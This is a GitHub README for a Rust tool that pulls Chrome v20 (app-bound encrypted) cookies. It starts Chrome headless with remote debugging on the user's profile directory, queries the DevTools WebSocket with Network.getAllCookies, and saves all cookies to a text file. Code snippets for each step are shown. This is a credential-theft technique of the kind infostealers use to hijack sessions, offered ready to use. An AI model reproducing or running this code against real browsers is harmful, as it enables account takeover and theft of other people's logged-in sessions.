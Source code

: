 ## decrypt_v20_chrome_cookies
🚀 This repository **is a simple Rust project** for retrieving **Chrome v20 cookies.**

## 📌 Features
- Retrieve cookies v20 from **Chrome Debugger**
- **Simple and lightweight** Rust implementation
- **Easy** to use

## 🛠️ How It Works
This project uses **Rust** to retrieve **Chrome v20 cookies** using chrome debugging. Here are the main steps:
- **Launches the Chrome Debugger**: Start Chrome in headless mode with remote debugging enabled.
```rust
let _ = Command::new(path_chrome)
            .arg(format!("--remote-debugging-port={}", port_debugging))
            .arg("--remote-allow-origins=*")
            .arg("--headless")
            .arg(format!("--user-data-dir={}", path_user))
            .stdout(Stdio::null()) 
            .stderr(Stdio::null())
            .spawn()?;
```

- **Connect to Debugging Interface**: Use ```reqwest``` to retrieve the ```webSocketDebuggerUrl``` for WebSocket communication.
```rust
let resp = reqwest::blocking::get(format!("http://localhost:{}/json", port_debugging))?;
let ws_url = json[0]["webSocketDebuggerUrl"].as_str().unwrap().to_string();
```

**Retrieve Cookies**: Send a command to fetch all cookies via WebSocket.
```rust
let (mut socket, _) = connect(ws_url)?;
let data = serde_json::json!({ "id": 1, "method": "Network.getAllCookies" });
socket.send(Message::Text(data.to_string()))?;
```

**Store Cookies**: Write the retrieved cookies to ```cookies.txt```

## 📥 Installation
Make sure you have **Rust** installed. If not, you can install it via this website [rust](https://www.rust-lang.org/fr/tools/install):       
```
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```
Then, clone this repository and build the project:
```
git clone https://github.com/exiton0x/decrypt_v20_chrome_cookies
cd decrypt_v20_chrome_cookies
cargo build --release
```

## 🚀 Usage
```
cargo run
```
Or use the compiled binary:
```
target/release/
```

